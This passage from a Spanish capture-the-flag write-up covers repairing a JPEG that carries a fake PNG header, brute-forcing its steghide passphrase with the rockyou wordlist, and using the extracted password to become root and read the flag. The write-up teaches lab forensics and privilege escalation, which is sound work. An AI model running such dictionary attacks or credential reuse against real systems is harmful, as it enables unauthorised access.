000000b0: 01ff c400 1f00 0001 0501 0101 0101 0100  ................
000000c0: 0000 0000 0000 0001 0203 0405 0607 0809  ................
000000d0: 0a0b ffc4 00b5 1000 0201 0303 0204 0305  ................
000000e0: 0504 0400 0001 7d01 0203 0004 1105 1221  ......}........!
000000f0: 3141 0613 5161 0722 7114 3281 91a1 0823  1A..Qa."q.2....#
00000100: 42b1 c115 52d1 f024 3362 7282 090a 1617  B...R..$3br.....
00000110: 1819 1a25 2627 2829 2a34 3536 3738 393a  ...%&'()*456789:
00000120: 4344 4546 4748 494a 5354 5556 5758 595a  CDEFGHIJSTUVWXYZ
00000130: 6364 6566 6768 696a 7374 7576 7778 797a  cdefghijstuvwxyz
00000140: 8384 8586 8788 898a 9293 9495 9697 9899  ................
00000150: 9aa2 a3a4 a5a6 a7a8 a9aa b2b3 b4b5 b6b7  ................
00000160: b8b9 bac2 c3c4 c5c6 c7c8 c9ca d2d3 d4d5  ................
00000170: d6d7 d8d9 dae1 e2e3 e4e5 e6e7 e8e9 eaf1  ................
00000180: f2f3 f4f5 f6f7 f8f9 faff c400 1f01 0003  ................
00000190: 0101 0101 0101 0101 0100 0000 0000 0001  ................
000001a0: 0203 0405 0607 0809 0a0b ffc4 00b5 1100  ................
000001b0: 0201 0204 0403 0407 0504 0400 0102 7700  ..............w.
000001c0: 0102 0311 0405 2131 0612 4151 0761 7113  ......!1..AQ.aq.
000001d0: 2232 8108 1442 91a1 b1c1 0923 3352 f015  "2...B.....#3R..
```

Observamos que los primeros bytes corresponden a la cabecera de un archivo **PNG**:

```
89 50 4E 47
```

Sin embargo, el archivo tiene extensión `.jpg`.

Esto ya indica que **algo no encaja correctamente con el formato del archivo**.

### Análisis del final del archivo

Si analizamos los últimos bytes del archivo utilizando `xxd`, podemos observar cómo termina realmente el fichero.

```shell
xxd captura3.jpg | tail -30
```

Respuesta:

```
00006cb0: 94ac ae52 8dcc 8b3d 1f50 d624 48ad ed25  ...R...=.P.$H..%
00006cc0: 9327 8205 7a87 82bf 661f 15f8 b655 6788  .'..z...f....Ug.
00006cd0: db42 71cb a9e9 f5af 7ef8 1ffc 3f85 7d33  .Bq.....~...?.}3
00006ce0: e1ff 00f9 07a7 fbd5 e6bc 54e4 ecb4 3a95  ..........T...:.
00006cf0: 28ad 59e0 3f0e ff00 63cd 0bc3 cb0d c6a3  (.Y.?...c.......
00006d00: 9bbb 8006 411c 57ba f87b c05a 5e8f 1886  ....A.W..{.Z^...
00006d10: d6d2 3850 0fe1 502b a51d 2ae4 3d2b 16b9  ..8P..P+..*.=+..
00006d20: 9de5 a9a5 acb4 29db e931 5b00 1100 1f4a  ......)..1[....J
00006d30: b2d6 c369 e3f2 ab63 a8a5 97a0 ad54 1344  ...i...c.....T.D
00006d40: 94ad 90e4 f149 a85f 43a6 5a99 a5cb 6385  .....I._C.Z...c.
00006d50: 45e4 bb76 02ae 0e95 8173 ff00 23a5 9ffd  E..v.....s..#...
00006d60: 7b9f e66a d2b0 989a 6e8f 34b7 cdaa 6a60  {..j....n.4...j`
00006d70: 35eb 8c47 0839 5b74 fee8 f7f5 35ae 1464  5..G.9[t....5..d
00006d80: f726 a73d 6a4b 6ff5 b5ad db62 b682 e9d6  .&.=jKo....b....
00006d90: 1e63 6597 8f71 57a7 d1ec ae31 e75a a498  .ce..qW....1.Z..
00006da0: ff00 671f caad db74 a987 dead d256 3979  ..g....t.....V9y
00006db0: 9dcc ad43 c350 456d bad2 eaea ccfa 23ee  ...C.PEm......#.
00006dc0: 5fc8 d738 61d5 6ddd 444f 6f7a 33f7 64cc  _..8a.m.DOoz3.d.
00006dd0: 6df9 8cd7 777f ff00 1e83 e86b 998f fd6d  m...w......k...m
00006de0: 448d 23a9 993e b12d b94f b5e9 f716 fdb7  D.#..>.-.O......
00006df0: 4789 17f3 073f a54b 65ab 5a5d 4836 4c9d  G....?.Ke.Z]H6L.
00006e00: 7a36 54fe 4715 a32f 4159 3ab7 fa93 f5a9  z6T.G../AY:.....
00006e10: 4ca9 ad0d c760 5463 a7a8 a88f 43ce 3deb  L....`Tc....C.=.
00006e20: 8b83 fe3e e3fa d766 9ff1 ef1f d2ba 2fa1  ...>...f....../.
00006e30: 8093 c8d1 c041 e41e f5ce 5f5c 019c 1e87  .....A...._\....
00006e40: 15d1 dd7f c7b9 ae4e f3af e759 b34e 8559  .......N...Y.N.Y
00006e50: e761 d298 6521 0123 06a3 7fbc 6897 ee8a  .a..e!.#....h...
00006e60: 4819 56fa e879 2c49 0315 c76a 3306 24fa  H.V..y,I...j3.$.
00006e70: 9ae8 353f f52f f535 c9dd fdd1 40b6 3fff  ..5?./.5....@.?.
00006e80: d9                                       .
```

En esta parte observamos algo interesante: el archivo termina con los bytes `FF D9`, que corresponden al **marcador de finalización (EOI — End Of Image) de un archivo JPEG**.

Esto resulta extraño, ya que anteriormente habíamos visto que el archivo comenzaba con una cabecera de **PNG** (`89 50 4E 47`). Este comportamiento indica que el archivo probablemente está **manipulado**, mezclando elementos de diferentes formatos de imagen.

En otras palabras, todo apunta a que **el archivo realmente es un JPG**, pero se ha añadido una **cabecera PNG falsa al inicio** con el objetivo de confundir o dificultar el análisis.

Para comprobar si existe una cabecera válida de JPEG dentro del archivo, buscamos el marcador de inicio de este formato (`FF D8`).

```shell
xxd captura3.jpg | grep -n "ff d8"
```

Sin embargo, no encontramos ningún resultado. Esto puede ocurrir si el inicio del archivo ha sido sobrescrito o modificado.

Una técnica útil en estos casos es buscar el marcador `FF DB`, que corresponde a **Define Quantization Table**, una estructura típica que aparece al inicio de muchos archivos JPEG después de la cabecera.

```shell
xxd captura3.jpg | grep -n "ff db"
```

Respuesta:

```
6:00000050: 1718 1614 1812 1415 14ff db00 4301 0304  ............C...
```

Observamos que el marcador aparece en la línea `6`. Esto nos da una pista clara: el archivo contiene estructuras internas propias de JPEG.

Si `FF DB` aparece aproximadamente en el offset `0x5A`, el marcador `FF D8` debería encontrarse **unos bytes antes**. Sin embargo, en nuestro caso el archivo comienza con:

```
89 50 4E 47
```

que corresponde a la cabecera de **PNG**.

Esto confirma que **el archivo tiene una cabecera PNG falsa insertada delante de los datos reales del JPG**.

En otras palabras, el archivo original JPEG sigue presente, pero su cabecera fue modificada para ocultar su formato real.

### Reparación del archivo

Para recuperar la imagen original, vamos a **reemplazar manualmente la cabecera incorrecta por una cabecera válida de JPEG**.

Primero instalamos un editor hexadecimal:

```shell
sudo apt install hexedit
cp captura3.jpg test1.jpg
hexedit test1.jpg
```

Una vez dentro del editor, nos posicionamos al inicio del archivo y reemplazamos los primeros bytes por una **cabecera estándar de JPEG (JFIF)**:

```
FF D8 FF E0 00 10 4A 46 49 46 00 01 01 01 00 48 00 48 00 00
```

Respuesta:

Pasted image 20260312100517.png

Guardamos el archivo y verificamos nuevamente su tipo:

```shell
file test1.jpg
```

Respuesta:

```
test1.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 72x72, segment length 16, baseline, precision 8, 447x297, components 3
```

Ahora el sistema reconoce correctamente el archivo como una imagen **JPEG válida**, lo que indica que la reparación ha funcionado.

### Análisis de la imagen

Abrimos la imagen para inspeccionarla visualmente:

```shell
open test1.jpg
```

Respuesta:

<figure><figcaption></figcaption></figure>

A simple vista no parece haber nada especialmente relevante, por lo que el siguiente paso lógico es comprobar si la imagen contiene **información oculta mediante esteganografía**.

### Esteganografía

Instalamos la herramienta `steghide`, que permite ocultar y extraer datos dentro de imágenes.

A continuación realizamos un **ataque de diccionario utilizando la wordlist `rockyou`** para intentar extraer contenido oculto.

```shell
sudo apt install steghide
cat /usr/share/wordlists/rockyou.txt | xargs -I {} -P 4 sh -c 'steghide extract -sf intento1.jpg -p "{}" -xf output_{}.txt 2>/dev/null && echo "Contraseña encontrada: {}"'
```

Respuesta:

```
Contraseña encontrada: dinamo
```

Una vez encontrada la contraseña correcta, analizamos el archivo extraído.

> output\_dinamo.txt

```
hGRjVqry0tcVYpgvVjzm
```

Observamos que el contenido corresponde a una **cadena que parece ser una contraseña**, por lo que probamos si puede utilizarse para acceder al usuario `root`.

```shell
su root
```

Metemos como contraseña `hGRjVqry0tcVYpgvVjzm`...

```
root@d8f11ce8ba0e:/home/ethan# whoami
root
```

Accedemos correctamente al usuario **root**, completando así la escalada de privilegios.

Al igual que antes, ejecutamos una shell con `sh` para evitar que la sesión se cierre automáticamente.

Finalmente leemos la flag del sistema.

> root.txt

```
DL{U31jcT3PzQGbsni7igEf}
```
